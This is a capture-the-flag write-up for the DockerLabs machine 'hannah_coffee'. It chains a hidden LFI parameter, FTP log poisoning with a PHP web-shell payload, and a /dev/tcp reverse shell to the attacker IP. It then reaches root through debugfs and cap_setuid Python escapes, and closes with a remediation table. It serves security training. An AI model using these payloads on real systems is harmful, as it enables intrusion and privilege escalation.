# hannah_coffee — DockerLabs Writeup

**Platform:** DockerLabs · **Difficulty:** Easy · **Target IP:** 172.17.0.2 · **Attacker IP:** 172.17.0.1



## Summary

hannah_coffee is an easy machine built around a Local File Inclusion (LFI) vulnerability hidden behind a decoy parameter. The visible `page` GET parameter looks like the classic LFI candidate but isn't the vulnerable one — the real parameter (`studio`) only turns up through parameter fuzzing. Once found, the LFI is escalated to RCE via classic FTP log poisoning. From a `www-data` shell, a misconfigured `sudo` rule pivots to the `hannah` user through `debugfs`, and a Python binary with the `cap_setuid` capability set provides the final step to root.

**Attack chain:** Recon → Web enumeration reveals `/pages/*.php` served through `index.php?page=X` → `page` parameter is not actually vulnerable → Parameter fuzzing with wfuzz finds the real parameter `studio` → LFI confirmed via `/etc/passwd` → FTP username injection + LFI on `vsftpd.log` → RCE as `www-data` → `sudo -l` reveals a `debugfs` rule → pivot to `hannah` → user flag → SUID `exim4` investigated and discarded (patched version) → `getcap` reveals `cap_setuid` on a custom Python binary → root

## 1. Reconnaissance

```bash
ping -c 5 172.17.0.2
```



```bash
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2
```

```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.68 ((Debian))
|_http-title: Hannah's Coffee
|_http-server-header: Apache/2.4.68 (Debian)
Service Info: OS: Unix
```

Two services: FTP (vsftpd 3.0.5) and a Debian Apache server hosting a coffee-shop themed site.

## 2. Web Enumeration



A static-looking marketing site — Home, Menu, About, Contact. Nothing interactive on the surface.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
pages                (Status: 301) [Size: 348] [--> http://172.17.0.2/pages/]
server-status        (Status: 403) [Size: 315]
```

Browsing directly to `/pages/` (directory listing enabled) reveals the individual page fragments:



`about.php`, `contact.php`, `home.php`, `menu.php` — and the site's real homepage is actually loaded through `index.php?page=home`, not by hitting `home.php` directly:



This `page=X` → include pattern is the textbook shape of an LFI vulnerability.

## 3. Finding the Real Parameter

The obvious move is path traversal against `page`:

```
http://172.17.0.2/index.php?page=../../../../../../../../etc/passwd
```



No traversal, no error — the page just renders normally. `page` is a decoy; it's not the parameter the `include()` actually uses. Fuzzing GET parameter names against `index.php` confirms this and finds the real one:

```bash
wfuzz -c --hl 29 -u "http://172.17.0.2/index.php?FUZZ=test" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

```
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000766:   200        24 L     44 W       635 Ch      "studio"
```

`--hl 29` filters out the baseline "29 lines" response (invalid parameter), so the one result that returns something different — `studio` — stands out immediately.

## 4. LFI Confirmed

```
http://172.17.0.2/index.php?studio=../../../../../../../../etc/passwd
```



`/etc/passwd` renders in full. Two accounts stand out:

```
hannahftp:x:1000:1000::/home/hannahftp:/bin/sh
hannah:x:1001:1001::/home/hannah:/bin/bash
```

`hannahftp` lines up directly with the FTP service found in recon — a strong hint that FTP and this LFI are meant to be chained together.

## 5. LFI to RCE — FTP Log Poisoning

vsftpd logs every login attempt, including the username supplied — successful or not — to `/var/log/vsftpd.log`. Connecting and providing a PHP payload as the username gets that payload written straight into the log:

```bash
ftp 172.17.0.2
Name: <?php system($_GET['cmd']); ?>
```

The login fails (there's no password), but the string is already on disk. Including that log through the LFI executes it:

```
http://172.17.0.2/index.php?studio=../../../../../../../../var/log/vsftpd.log&cmd=id
```



The log line that used to show a rejected username now shows the output of `id`:
```
[ uid=33(www-data) gid=33(www-data) groups=33(www-data) ] FAIL LOGIN: Client "172.17.0.1"
```

Confirmed command execution as `www-data`. This technique (poisoning a log with attacker-controlled input, then including it via LFI) isn't documented on HackTricks specifically, but it's well covered by [The Hacker Recipes](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning) and PentesterLab's log-poisoning reference — worth keeping as a secondary resource for anything HackTricks doesn't cover.

## 6. Getting a Shell

With arbitrary command execution, upgraded straight to a reverse shell:

```bash
nc -lvnp 4444
```

```
http://172.17.0.2/index.php?studio=../../../../../../../../var/log/vsftpd.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/4444%200%3E%261%27
```





```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 34388
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
www-data@e91c2e1d0d7c:/var/www/html$
```

Stabilized the usual way:

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

## 7. Post-Exploitation — Pivot to hannah

```bash
sudo -l
```

```
User www-data may run the following commands on e91c2e1d0d7c:
    (hannah) NOPASSWD: /sbin/debugfs -w /opt/hannah_disk.img
```

`debugfs` in write mode is a known GTFOBins vector — its interactive prompt has a `!` escape that runs shell commands, inheriting whatever privileges the `debugfs` process has:

```bash
sudo -u hannah /sbin/debugfs -w /opt/hannah_disk.img
```

```
debugfs:  !/bin/bash
hannah@e91c2e1d0d7c:/var/www/html$
```

Pivoted to `hannah`.

## 8. User Flag

```bash
cd /home/hannah
cat user.txt
```

```
dl{user_eedfcf739a076a72412c89a1354a4119}
```

## 9. Privilege Escalation — Investigating (and Discarding) SUID exim4

Checked for SUID binaries as `hannah`:

```bash
find / -perm -4000 2>/dev/null
```

```
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/exim4
```



`exim4` with the SUID bit is unusual and worth checking — Exim has a history of local privilege escalation CVEs (CVE-2019-10149 "Return of the WIZard", CVE-2016-1531 via Perl injection, among others). Confirmed the exact version:

```bash
exim4 --version
```

```
Exim version 4.98.2 #2 built 23-Jul-2026 17:04:03
```

Checked this version against known Exim CVEs: the only recent local-privilege-escalation-relevant one, **CVE-2025-30232** (a use-after-free exploitable with command-line access, affecting 4.96 through 4.98.1), was **fixed exactly in 4.98.2** — the version installed here. No public exploit applies. Reviewed the Exim configuration (`/etc/exim4/exim4.conf`, `/var/lib/exim4/config.autogenerated`) for custom routers/transports that might run attacker-influenced commands as root — nothing exploitable found. This path was a dead end, not the intended route to root.

## 10. Privilege Escalation — Linux Capabilities on a Custom Python Binary

With SUID exhausted, checked for Linux capabilities instead:

```bash
getcap -r / 2>/dev/null
```

```
/opt/priv-python cap_setuid=ep
```

A custom Python binary carrying `cap_setuid=ep` — the capability that lets a process call `setuid()` regardless of who's running it. This is a documented GTFOBins technique for Python: with `cap_setuid`, the process can promote itself to UID 0 and spawn a shell.

```bash
/opt/priv-python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```



```
whoami
root
id
uid=0(root) gid=1001(hannah) groups=1001(hannah)
cd /root
cat root.txt
dl{root_d5cc9d7538dc7c341cd96bba5a951520}
```

Root achieved.

## Root Cause & Remediation

| Issue | Fix |
|-------|-----|
| Decoy `page` parameter alongside the real vulnerable parameter (`studio`) — doesn't stop LFI, only slightly delays discovery | Security through obscurity isn't a fix; the real issue below is what needs remediation, not the parameter's name |
| `include()`/`require()` built from unsanitized user input (`studio` parameter) allows arbitrary local file inclusion | Never build file paths from user input; use a fixed allow-list of valid page names mapped to files, never pass the parameter directly into a filesystem path |
| vsftpd logs unauthenticated, attacker-controlled input (the FTP username) in plaintext, and that log is reachable via the LFI | Restrict log file permissions to the service account only; keep application code from being able to read arbitrary paths on disk in the first place (fixing the LFI prevents this regardless of what's in the logs) |
| `sudo` rule allowing `www-data` to run `debugfs -w` as `hannah` with no password | Avoid granting `sudo` access to any tool that can spawn a shell or write arbitrary files (check against GTFOBins before writing a sudoers rule) |
| Custom binary (`/opt/priv-python`) carries the `cap_setuid` capability | Never grant `cap_setuid` (or other privilege-escalation-capable capabilities) to interpreters like Python — they can always be abused to call `setuid()` and spawn a privileged shell |
